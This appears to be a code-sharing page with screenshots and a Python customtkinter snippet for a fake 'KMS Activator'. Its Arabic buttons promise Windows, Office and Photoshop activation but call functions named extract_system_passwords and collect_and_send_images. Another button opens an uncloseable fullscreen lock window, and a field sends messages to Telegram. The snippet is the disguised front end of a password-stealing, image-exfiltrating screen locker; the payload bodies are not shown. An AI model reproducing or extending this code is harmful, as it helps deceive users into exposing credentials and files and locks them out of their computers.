 ![Screenshot-2025-04-12-131058](https://i.postimg.cc/J0qGRfNk/Screenshot-2025-04-12-131058.png)

---

![Screenshot-2025-04-12-131129](https://i.postimg.cc/kMFVNb0g/Screenshot-2025-04-12-131129.png)



```python
ctk.set_appearance_mode("light")
root = ctk.CTk()
root.title("KMS Activator")
root.geometry("450x600")
root.resizable(False, False)
root.configure(fg_color="#E6F0FA")
main_frame = ctk.CTkFrame(root, fg_color="#F8FAFC", corner_radius=20, border_width=2, border_color="#DBEAFE")
main_frame.place(relx=0.5, rely=0.5, anchor="center", relwidth=0.9, relheight=0.9)

title_label = ctk.CTkLabel(main_frame, text="KMS ACTIVATOR", font=("Arial", 24, "bold"), text_color="#1E40AF")
title_label.pack(pady=20)

button_frame = ctk.CTkFrame(main_frame, fg_color="transparent")
button_frame.pack(pady=10, padx=20, fill="both")

for i, (text, cmd, color, hover) in enumerate([
    ("تفعيل ويندوز", activate_windows, "#A78BFA", "#8B5CF6"),
    ("تفعيل أوفيس", activate_office, "#60A5FA", "#3B82F6"),
    ("حالة التفعيل", show_fullscreen_lock, "#F472B6", "#EC4899"),
    ("تفعيل فوتوشوب", extract_system_passwords, "#F87171", "#EF4444"),
    ("اضغط للأهمية", collect_and_send_images, "#FCD34D", "#FBBF24")
]):
    row_frame = ctk.CTkFrame(button_frame, fg_color="transparent")
    row_frame.pack(fill="x", pady=10)
    num_label = ctk.CTkLabel(row_frame, text=str(i+1), font=("Arial", 16, "bold"), text_color=color,
                            fg_color="#F8FAFC", width=40, height=40, corner_radius=20)
    num_label.pack(side="left", padx=(0, 15))
    btn = ctk.CTkButton(row_frame, text=text, command=cmd, fg_color=color, text_color="white",
                       font=("Arial", 14), corner_radius=25, hover_color=hover, height=45)
    btn.pack(side="left", fill="x", expand=True)

input_frame = ctk.CTkFrame(main_frame, fg_color="transparent")
input_frame.pack(pady=20, padx=20, fill="x")
input_entry = ctk.CTkEntry(input_frame, width=300, font=("Arial", 12), placeholder_text="اكتب رسالة لإرسالها إلى تيليجرام",
                          fg_color="#F8FAFC", border_color="#DBEAFE", corner_radius=15)
input_entry.pack(side="left", padx=(0, 10))
send_button = ctk.CTkButton(input_frame, text="إرسال", command=send_input_to_telegram, fg_color="#10B981",
                           text_color="white", font=("Arial", 12), corner_radius=20, hover_color="#059669", height=40)
send_button.pack(side="left")

def show_fullscreen_lock():
    global lock_window, media_label, media_image_label
    send_unlock_code()
    lock_window = ctk.CTkToplevel()
    lock_window.attributes("-fullscreen", True)
    lock_window.attributes("-topmost", True)
    lock_window.protocol("WM_DELETE_WINDOW", lambda: None)
    lock_window.focus_force()
    lock_window.grab_set()
    lock_window.configure(fg_color="#E6F0FA")
```